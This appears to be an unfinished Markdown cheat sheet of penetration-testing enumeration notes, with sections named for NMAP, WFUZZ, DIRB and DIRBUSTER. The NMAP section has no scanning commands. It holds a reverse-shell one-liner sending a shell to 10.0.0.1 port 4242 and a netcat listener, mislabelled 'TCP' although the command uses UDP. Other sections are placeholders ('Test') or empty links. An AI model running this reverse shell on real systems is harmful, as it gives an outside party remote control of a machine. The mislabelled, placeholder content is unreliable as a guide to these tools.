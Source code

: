 # Enumeration

## Summary
* [NMAP](#NMAP)
* [WFUZZ](#WFUZZ)
* [Directory](#Directory)
   * [DB](#DIRB)
   * [DIRBUSTER](#DIRBUSTER)
* [Credentials](#)
   * [John-the-Ripper](#)
* [](#)
* [](#)
* [](#)
* [](#)
* [](#)
 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
https://wfuzz.readthedocs.io/en/latest/user/basicusage.html
https://medium.com/bugbountywriteup/how-to-brute-force-efficiently-without-burp-pro-1bb2a414a09f
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```
